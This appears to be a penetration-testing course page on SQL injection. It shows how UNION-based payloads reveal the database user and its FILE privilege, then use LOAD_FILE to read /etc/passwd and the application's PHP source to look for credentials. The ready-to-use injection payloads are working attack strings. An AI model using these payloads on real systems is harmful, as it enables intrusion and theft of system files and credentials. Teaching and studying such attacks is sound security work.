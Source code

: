 # Reading Files

In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

***

## Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

### **DB User**

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

### **User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (1).png" alt=""><figcaption></figcaption></figure>

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

***

## LOAD\_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD\_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

{% hint style="info" %}
**Note:** We will only be able to read the file if the OS user running MySQL has enough privileges to read it.
{% endhint %}

Similar to how we have been using a `UNION` injection, we can use the above query:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

***

## Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.
